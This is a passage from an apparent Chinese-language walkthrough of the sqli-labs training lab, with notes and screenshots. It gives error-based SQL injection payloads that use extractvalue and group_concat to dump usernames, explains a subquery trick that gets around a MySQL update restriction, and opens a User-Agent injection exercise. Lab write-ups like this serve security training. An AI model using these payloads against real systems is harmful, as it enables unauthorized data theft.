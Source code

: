 ```mysql
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(username) from users)))#
```

![image-20240308204620735](sqli-labs.assets/image-20240308204620735.png)

```mysql
mysql中一个语句中不能先select表中的某些值，再update这个表，所以报错了，那么就使用(select username from users)a替换掉users来绕过
```

```mysql
uname=admin&passwd=1' and extractvalue(1,concat('~',(select group_concat(username) from (select username from users)a)))#
```

## Less-18(uagent注入)

```mysql
在输入admin和admin之后页面呈现为这样，看到user agent，那么可以尝试用uagent注入
```

![image-20240308205059600](sqli-labs.assets/image-20240308205059600.png)


